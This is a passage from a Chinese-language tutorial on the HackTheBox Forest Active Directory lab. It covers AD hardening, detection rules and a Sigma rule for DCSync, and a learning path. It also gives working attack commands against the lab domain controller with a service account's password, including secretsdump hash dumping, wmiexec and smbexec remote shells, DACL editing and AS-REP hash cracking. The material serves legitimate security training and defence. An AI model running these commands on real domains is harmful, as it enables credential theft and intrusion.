每个账户只拥有完成任务所需的最小权限。svc-alfresco账户根本不需要任何Exchange Windows Permissions组的继承权限。建议：
- 为每个服务创建专用账户（Managed Service Account）
- 组嵌套层级不超过3层
- 使用`Active Directory Administrative Center`审查有效权限

**原则二：纵深防御**

即使LDAP匿名绑定被利用，仍有后续防御层阻挡：
- 所有账户启用预认证（定期扫描DONT_REQUIRE_PREAUTH标志）
- 使用LAPS管理本地管理员密码
- 域控启用Windows Defender for Identity或Azure ATP

**原则三：持续监控与审计**

- 部署SIEM（如Wazuh、ELK）监控域控事件日志
- 使用BloodHound进行定期AD攻击路径分析
- 设置关键事件告警：DCSync（事件ID 4662）、AS-REP异常请求

#### 8.7.3 关键检测规则

| 事件ID | 含义 | 检测逻辑 |
|--------|------|----------|
| **4662** | 对目录服务对象的操作 | 检测包含`DS-Replication-Get-Changes` GUID的操作 |
| **4768** | Kerberos TGT请求 | 检测来自非域控主机的TGT请求 |
| **4769** | Kerberos服务票据请求 | 短时间内大量不同SPN的TGS请求（Kerberoasting特征） |
| **4624** | 账户登录成功 | WinRM/SMB异常登录源IP |
| **4648** | 显式凭证登录 | 非常规时间或来源的登录 |

**Sigma规则示例——检测DCSync**：

```yaml
title: 可疑的目录服务复制请求
id: 1a2b3c4d-5e6f-7890-abcd-ef1234567890
status: experimental
description: 检测非域控主机发起的AD复制请求（DCSync特征）
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'  # DS-Replication-Get-Changes
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'  # DS-Replication-Get-Changes-All
  filter:
    SubjectUserName|endswith: '$'  # 排除计算机账户（域控）
  condition: selection and not filter
level: high
tags:
  - attack.credential_access
  - attack.t1003.006
```

### 8.8 横向扩展——其他AD攻击路径与本案例的对比

掌握了Forest靶机的攻击链后，扩展视野看看AD渗透的其他经典路径：

| 攻击技术 | 本案例是否涉及 | 原理 | 关键命令 |
|----------|--------------|------|----------|
| **Kerberoasting** | ❌（未利用） | 请求服务票据并离线破解服务账户密码 | `GetUserSPNs.py htb.local/用户:密码` |
| **黄金票据（Golden Ticket）** | ❌（未利用） | 伪造krbtgt哈希生成任意TGT | `ticketer.py -nthash <krbtgt_hash>` |
| **白银票据（Silver Ticket）** | ❌（未利用） | 伪造服务账户哈希生成服务票据 | `ticketer.py -domain-sid <SID>` |
| **ACL滥用** | ✅ 核心环节 | 利用WriteDACL → DCSync | `dacledit.py` |
| **SMB Relay** | ❌（未利用） | 中间人攻击捕获NTLM认证 | `ntlmrelayx.py` |
| **密码喷射（Password Spray）** | ❌（未利用） | 用常见密码尝试多个账户 | `kerbrute passwordspray` |
| **约束/基于资源的委派攻击** | ❌（未利用） | 利用Kerberos委派配置漏洞 | `findDelegation.py` |
| **NTLM中继（NTLM Relay）** | ❌（未利用） | 将捕获的NTLM认证中继到另一台机器 | `ntlmrelayx.py` |

**为什么本案例没有使用Kerberoasting？**

在真正的HTB Forest靶机上，svc-alfresco账户的服务票据虽然存在，但该账户的密码已经被AS-REP Roasting直接拿到。Kerberoasting需要有效的域凭证（即使是普通用户），而小张在第5步就已经拿到密码了——因此没有重复使用Kerberoasting的必要。在实际渗透测试中，**应该按顺序尝试所有可行的路径**，而非只走一条路。

**如果LDAP匿名绑定不可用怎么办？** 在真实环境中，更常见的攻击入口是：
1. **钓鱼获取域凭证** → 直接开始AS-REP Roasting / Kerberoasting
2. **Password Spray** → 用常见密码尝试枚举到的用户名
3. **NTLM Relay** → 通过LLMNR/NBT-NS投毒捕获哈希
4. **物理接入** → 通过WiFi或网口接入内网后枚举

### 8.9 常见误区与故障排除

#### 8.9.1 新手常见误区

| 误区 | 正确理解 |
|------|----------|
| "DCSync必须用Administrator账户" | **错误**。任何拥有DS-Replication-Get-Changes权限的主体都可用DCSync |
| "LDAP匿名绑定默认就存在" | **错误**。从Windows Server 2008开始，默认关闭匿名LDAP；需要管理员的配置遗漏才会开启 |
| "AS-REP Roasting和Kerberoasting一样" | **错误**。AS-REP Roasting不需要域凭证；Kerberoasting需要有效域账户 |
| "Pass-the-Hash需要目标IP可达" | 正确，但还需要SMB或RPC端口开放（445/135） |
| "hashcat必须在Kali上跑" | **错误**。hashcat全平台可用，但建议用NVIDIA GPU加速 |

#### 8.9.2 实施中的常见故障

**问题1：ldapsearch返回空结果**

```text
# 可能原因：DN（Distinguished Name）格式错误
# 正确格式取决于域名称
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local"

# 如果不知道域名，可以先查询rootDSE
ldapsearch -x -h 10.10.10.161 -b "" -s base namingContexts
```

**问题2：GetNPUsers.py报错"KDC_ERR_PREAUTH_REQUIRED"**

```text
# 说明该账户启用了预认证，无法AS-REP Roast
# 跳过该账户，检查其他账户
# 如果所有账户都报此错误，说明没有可利用的未预认证账户
```

**问题3：secretsdump.py慢或超时**

```bash
# 尝试增加超时时间
python3 secretsdump.py -dc-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice@10.10.10.161 -timeout 30

# 如果仍然超时，可能是网络问题或目标DC负载过高
# 备选方案：使用-just-dc-ntlm只导出NTLM哈希（减少数据量）
python3 secretsdump.py -dc-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc-ntlm
```

**问题4：evil-winrm连接被拒绝**

```text
# WinRM可能未启用，尝试其他方式
# 使用wmiexec.py作为备选
python3 wmiexec.py htb.local/svc-alfresco:s3rvice@10.10.10.161

# 或使用smbexec.py（通过SMB）
python3 smbexec.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```

**问题5：dacledit.py报错"DACL modification failed"**

```bash
# 可能原因：当前用户没有WriteDACL权限
# 先验证权限
python3 dacledit.py -action read -target-dn "DC=htb,DC=local" \
  htb.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161

# 如果确认有权限但仍失败，可能是Impacket版本问题
# 升级Impacket
pip3 install impacket --upgrade
```

**问题6：hashcat报错"Device/Kernel mismatch"**

```bash
# 检查hashcat支持的模式
hashcat --help | grep "18200"

# 尝试强制运行
hashcat -m 18200 hash.txt rockyou.txt --force

# 或使用john替代
john --wordlist=rockyou.txt --format=krb5asrep hash.txt
```

### 8.10 学习总结与进阶路径

#### 8.10.1 知识要点综合

通过Forest靶机，小张系统性地学习了：

**知识维度一：AD信息收集技术**
- 如何识别AD域控（端口指纹：88+389+445+3268）
- LDAP匿名绑定枚举域用户
- 端口服务与AD基础架构的映射关系

**知识维度二：Kerberos攻击技术**
- AS-REP Roasting的原理与实施
- Kerberos预认证标志的判断与利用
- Kerberos加密类型（RC4/AES/ DES）的区别

**知识维度三：AD权限模型与ACL滥用**
- AD嵌套组的概念与权限继承
- WriteDACL权限的作用与利用方法
- DCSync攻击的权限前提和实施细节

**知识维度四：内网横向移动技术**
- WinRM远程管理（evil-winrm）
- Pass-the-Hash认证（无需明文密码）
- Impacket工具套件的综合使用

**知识维度五：安全防御视角**
- 从攻击链反推防御策略
- AD安全审计的基本框架
- 日志监控与异常行为检测

#### 8.10.2 向真实环境迁移的思考

靶机环境与真实企业AD渗透的最大差异在于：

| 差异维度 | HTB Forest靶机 | 真实企业环境 |
|----------|---------------|-------------|
| **复杂度** | 单一域控 | 多域控+子域+信任关系 |
| **安全设备** | 无 | EDR、SIEM、NDR、Honeypot |
| **网络隔离** | 无（直接可达） | VLAN隔离、堡垒机、跳板机 |
| **日志监控** | 无 | 事件收集、行为分析、告警规则 |
| **账户数量** | 少量 | 数千到数百万账户 |
| **制约因素** | 无时间/带宽限制 | 窗口时间短、带宽受限、不可中断 |

> **一句话总结**：靶机教会你"能不能做到"，真实环境考验你"能不能不被发现地做到"。

#### 8.10.3 进阶学习路径

完成Forest靶机后，推荐按以下路径深化AD安全能力：

| 阶段 | 学习内容 | 推荐资源 |
|------|----------|----------|
| **巩固期** | 重复Forest攻击链（不复习命令，理解每一步为什么工作） | 写渗透笔记，画攻击流程图 |
| **扩展期** | 学习其他AD攻击：Kerberoast、黄金票据、ACL劫持 | HTB Sauna/Sizzle/Resolute靶机 |
| **高级期** | 跨域攻击、林信任劫持、域外利用 | HTB Multimaster/APT系列 |
| **平台期** | BloodHound图论分析、AD CS攻击（ESC1-ESC13） | PKINITtools、Certipy工具 |
| **防御期** | 从Red切Blue：日志分析、狩猎规则编写 | Sigma规则、Microsoft 365 Defender |

**推荐的HTB AD靶机练习顺序**：

| 顺序 | 靶机 | 重点技术 | 难度 |
|------|------|----------|------|
| 1 | Forest | AS-REP Roasting + ACL滥用 + DCSync（本案例） | Medium |
| 2 | Sauna | AS-REP Roasting + Kerberoasting + LAPS滥用 | Easy |
| 3 | Resolute | 密码喷射 + ACL滥用 + DCSync | Medium |
| 4 | Blackfield | LAPS + ACL + DCSync（更复杂环境） | Hard |
| 5 | Sizzle | Kerberoasting + ADCS攻击 | Hard |

### 8.11 参考资料

| 资源 | 类型 | 链接/说明 |
|------|------|-----------|
| HackTheBox Forest | 靶机 | `https://app.hackthebox.com/machines/Forest` |
| Impacket文档 | 工具文档 | `https://github.com/fortra/impacket` |
| BloodHound | 工具 | `https://github.com/BloodHoundAD/BloodHound` |
| Microsoft Kerberos协议文档 | 官方文档 | `[MS-KILE]: Kerberos Protocol Extensions` |
| AS-REP Roasting详解 | 技术博客 | Harmj0y的博客 `https://blog.harmj0y.net` |
| DCSync攻击原理 | 技术博客 | `https://adsecurity.org/?p=1729` (Sean Metcalf) |
| Active Directory安全评估指南 | 书籍 | 《Active Directory Security Assessment》 |
| 红队AD攻击图谱 | 思维导图 | `https://github.com/infosecn1nja/AD-Attack-Defense` |
| DACL权限详解 | 官方文档 | `[MS-ADTS]: Active Directory Technical Specification` |
| DCSync检测Sigma规则 | 检测规则 | `https://github.com/SigmaHQ/sigma` |
